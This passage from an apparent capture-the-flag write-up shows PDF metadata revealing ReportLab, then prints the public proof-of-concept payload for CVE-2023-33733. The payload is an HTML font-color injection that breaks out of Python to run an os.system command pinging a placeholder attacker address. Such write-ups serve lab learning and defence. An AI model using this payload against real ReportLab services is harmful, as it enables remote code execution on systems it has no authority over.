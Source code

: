 ```bash
File Inode Change Date/Time     : 2024:09:12 15:54:21-04:00
File Permissions                : -rwxrwx---
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Author                          : (anonymous)
Create Date                     : 2024:05:17 22:53:02-02:00
Creator                         : (unspecified)
Modify Date                     : 2024:05:17 22:53:02-02:00
Producer                        : ReportLab PDF Library - www.reportlab.com
Subject                         : (unspecified)
Title                           : (anonymous)
Trapped                         : False
Page Mode                       : UseNone
Page Count                      : 1
```
The library used to make it is ReportLab.

Searching for “reportlab exploit” turns up information about CVE-2023-33733, a remote code execution vulnerability through Injection in ReportLab:
![alt text](../images/solarlab/cve.png)

## Exploiting ReportLab

Navigating to the exploit PoC on GitHub, the exploit code was:
```html
<para><font color="[[[getattr(pow, Word('__globals__'))
['os'].system('ping #attacker-ip') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1,
 'startswith': lambda self,
  x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
```